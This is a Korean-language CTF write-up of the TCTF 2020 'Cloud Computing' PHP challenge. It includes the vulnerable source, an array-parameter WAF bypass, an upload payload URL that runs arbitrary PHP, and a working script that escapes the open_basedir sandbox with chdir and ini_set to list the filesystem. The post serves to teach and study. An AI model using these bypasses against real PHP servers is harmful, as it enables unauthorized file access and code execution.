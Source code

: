 ```yaml
---
layout: post
title: "[TCTF 2020] Cloud Computing"
author: "choiys"
comments: true
tags: [ctf, misc, php]
---
```


라온화이트햇 핵심연구팀 최용선


# 0. 개요

2020. 06. 27 11:00 ~ 2020. 06. 29 11:00 (48h) 진행한 TCTF 2020 문제 중 misc 분야의 Cloud Computing 문제에 대한 Write Up입니다. 풀이에 사용된 취약점은 subdirectory를 이용한 php open_basedir 우회입니다.

# 1. 문제 설명

![/assets/2020-06-01/choi600.png](/assets/2020-06-01/choi600.png)

**Cloud Computing**

![/assets/2020-06-01/choi601.png](/assets/2020-06-01/choi601.png)

**Cloud Computing 문제 설명**

Cloud Computing 문제는 misc 분야의 문제로, 대회 기간 동안 총 42팀이 풀이하였습니다.

문제 설명에는 풀이에 힌트가 될만한 문구는 없습니다.

```php
<?php

error_reporting(0);

include 'function.php';

$dir = 'sandbox/' . sha1($_SERVER['REMOTE_ADDR'] . $_SERVER['HTTP_USER_AGENT']) . '/';

if(!file_exists($dir)){
  mkdir($dir);
}

switch ($_GET["action"] ?? "") {
  case 'pwd':
    echo $dir;
    break;
  case 'upload':
    $data = $_GET["data"] ?? "";
    if (waf($data)) {
      die('waf sucks...');
    }
    file_put_contents("$dir" . "index.php", $data);
  case 'shell':
    initShellEnv($dir);
    include $dir . "index.php";
    break;
  default:
    highlight_file(__FILE__);
    break;
}
```

**index.php**

문제 페이지에 접근해보면 위와 같은 소스코드를 확인할 수 있습니다.

문제 페이지에서는 사용자의 IP와 User Agent 정보를 이용하여 웹루트를 기준으로  `/sandbox/sha1(IP+UA)` 폴더를 생성합니다.

제공하는 기능은 아래와 같습니다.

---

1. ?action=pwd
    - 앞서 생성한 사용자 디렉토리($dir) 경로를 확인합니다.

        *( sandbox/373102940643ef0b8ab909ff4d486c5f584d7c86/ )*

2. ?action=upload&data=XXX
    - $dir 경로에 data 파라미터에 삽입한 내용을 index.php로 생성합니다.
    - data 파라미터를 waf 처리 후 탐지될 경우 `waf sucks...`를 출력 후 종료합니다.
    - 정상적으로 index.php를 생성할 경우 case문에 break가 없어 3. shell(코드 실행)로 이동합니다.
3. ?action=shell
    - $dir을 파라미터로 initShellEnv라는 함수를 호출합니다.
    - 이후 2에서 생성한 index.php를 include하여 실행합니다.

---

# 2. 문제 풀이

## 2-1. WAF

위 문제 설명에서 waf 함수가 있었으며, 이 함수는 공백, 특수문자 등을 필터링하는 기능을 가지고 있었습니다.

하지만 php에서는 HTTP 파라미터로 데이터를 전송할 때 `a[]=x`와 같이 전송할 시 Array로 인식을 하면서 이를 WAF에서 처리하지 않을 경우 손쉽게 우회가 가능합니다.

```php
<?php

function waf($data = '')
{
    if (strlen($data) > 35) {
        return true;
    }
    if (preg_match("/[!#%&'*+,-.: \t@^_`|A-Z]/m", $data, $match) >= 1) {
        return true;
    }
    return false;
}

function initShellEnv($dir)
{
    ini_set("open_basedir", "/var/www/html/$dir");
}
```

**function.php**

추출한 function.php를 살펴보면 Array에 대한 별다른 처리가 없는 것을 확인할 수 있습니다.

## 2-2. open_basedir

function.php의 `initShellEnv` 를 살펴보면 open_basedir을 사용자 경로로 설정하는 것을 확인할 수 있습니다.

![/assets/2020-06-01/choi60.png](/assets/2020-06-01/choi60.png)

**open_basedir**

open_basedir은 설정한 특정 디렉토리 및 하위 디렉토리만 접근할 수 있도록 합니다. 본 문제에서는 이 설정 때문에 상위 디렉토리에 접근할 경우 에러가 발생합니다.

```php
Warning: file_get_contents(): open_basedir restriction in effect. File(../../index.php) is not within the allowed path(s): (/var/www/html/sandbox/373102940643ef0b8ab909ff4d486c5f584d7c86/) in /var/www/html/sandbox/373102940643ef0b8ab909ff4d486c5f584d7c86/index.php on line 1

Warning: file_get_contents(../../index.php): failed to open stream: Operation not permitted in /var/www/html/sandbox/373102940643ef0b8ab909ff4d486c5f584d7c86/index.php on line 1
```

payload : [http://pwnable.org:47780/?action=upload&data[]=<?php error_reporting(E_ALL); ini_set("display_errors", 1); file_get_contents('../../index.php') ?>](http://pwnable.org:47780/?action=upload&data%5B%5D=%3C?php%20error_reporting(E_ALL);%20ini_set(%22display_errors%22,%201);%20file_get_contents(%27../../index.php%27)%20?%3E)

이를 우회하는 방법은 2가지가 있습니다.

1. subdirectory
2. symbolic link

본 문제에서는 subdirectory를 이용하여 open_basedir 설정을 우회하였습니다.

```php
<?php
<?php
    error_reporting(E_ALL);
    ini_set("display_errors", 1);

    $base_dir='/var/www/html/sandbox/373102940643ef0b8ab909ff4d486c5f584d7c86/';
    if(!file_exists($base_dir))
        mkdir($base_dir.'/choiys');
    chdir($base_dir.'/choiys');

    ini_set('open_basedir','..');
    chdir('../');
    chdir('../');
    chdir('../');
    chdir('../');
    chdir('../');
    chdir('../');
    ini_set('open_basedir','/');

    $dirs = scandir('/');
    foreach($dirs as $dir){
        echo $dir."\n";
    }

//    echo file_get_contents('/var/www/html/function.php');
?>
```

**bypass open_basedir**

---

1. open_basedir이 설정되어있는 상태에서 임의의 디렉토리를 생성합니다.
2. chdir 명령어를 통해 해당 디렉토리로 이동한 후 open_basedir을 상위 디렉토리로 변경합니다.
3. chdir 명령어를 반복 사용하여 루트 디렉토리로 이동합니다.
4. open_basedir을 루트 디렉토리(/)로 변경합니다.

---

위와 같은 프로세스를 통해 고정된 open_basedir을 루트 디렉토리로 변경할 수 있으며, 결과적으로 모든 디렉토리에 접근이 가능해집니다.

이후 scandir 함수를 사용하여 루트 디렉토리를 확인하여 flag 파일이 존재하는 것을 확인하였습니다.

```bash
➜  cloud_computing ls
agent  agent.i64  golang_loader_assist.py  legacy_flag  payload.py  res.out
➜  cloud_computing file res.out
res.out: gzip compressed data, was "flag.img", last modified: Fri Jun 26 00:54:32 2020, from Unix, original size modulo 2^32 1048064
➜  cloud_computing mv res.out res.gz
➜  cloud_computing gzip -d res.gz
➜  cloud_computing file res
res: Linux rev 1.0 ext2 filesystem data (mounted or unclean), UUID=d4d08581-e309-4c51-990b-6472ba249420 (large files)
```

추출한 파일을 확인해보면 gzip으로 압축되어있으며, 압축 해제 시 ext2 이미지를 얻을 수 있습니다.

![/assets/2020-06-01/choi61.png](/assets/2020-06-01/choi61.png)

해당 이미지를 hex에디터로 살펴보면 PNG파일이 존재하는 것을 확인할 수 있으며, 카빙하여 이미지를 추출하면 플래그를 얻을 수 있습니다.

![/assets/2020-06-01/choi62.png](/assets/2020-06-01/choi62.png)

FLAG : **flag{do_u_like_cloud_computing}**